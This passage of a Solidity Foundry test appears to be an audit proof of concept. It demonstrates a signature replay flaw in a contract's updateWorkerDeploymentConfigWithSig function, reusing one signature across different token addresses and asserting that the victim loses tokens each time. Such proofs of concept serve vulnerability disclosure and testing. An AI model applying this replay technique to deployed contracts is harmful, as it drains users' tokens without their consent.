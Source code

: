 ```solidity
        
        vm.prank(victimAddress);
        secondMockToken.approve(address(blueprint), updateCost * 3);
        
        // Initial legitimate update - this works as expected
        vm.prank(victimAddress);
        blueprint.updateWorkerDeploymentConfigWithSig(
            address(mockToken), 
            testProjectId, 
            requestId,
            updatedConfig,
            signature
        );
        
        // Check the first token transfer occurred
        uint256 victimBalanceAfterFirstUpdate = mockToken.balanceOf(victimAddress);
        assertEq(victimBalanceAfterFirstUpdate, updateCost * 2, "Victim should have lost tokens after first update");
        
        // ATTACK: Replay the same signature with a different token
        // The attacker could be anyone who sees the signature on-chain
        vm.prank(victimAddress);
        blueprint.updateWorkerDeploymentConfigWithSig(
            address(secondMockToken), 
            testProjectId, 
            requestId,
            updatedConfig,
            signature
        );
        
        // Check the second token transfer occurred without the victim signing again
        uint256 victimSecondTokenBalanceAfterReplay = secondMockToken.balanceOf(victimAddress);
        assertEq(victimSecondTokenBalanceAfterReplay, updateCost * 2, "Victim lost tokens from second token without signing");
        
        // ATTACK: Replay the signature again with the original token
        // Multiple replays are possible until allowances are exhausted
        vm.prank(victimAddress);
        blueprint.updateWorkerDeploymentConfigWithSig(
            address(mockToken), 
            testProjectId, 
            requestId,
            updatedConfig,
            signature
        );
        
        // Check the third unauthorized token transfer occurred
        uint256 victimBalanceAfterSecondReplay = mockToken.balanceOf(victimAddress);
        assertEq(victimBalanceAfterSecondReplay, updateCost, "Victim lost additional tokens from multiple replays");
        
        // Use a different projectId for the second agent
        bytes32 secondProjectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2984);
        
        // Create another agent with the new project ID
        vm.prank(victimAddress);
        bytes32 secondRequestId = blueprint.createAgentWithToken(
            secondProjectId,
            base64Proposal,
            workerAddress,
            serverURL,
            address(mockToken)
```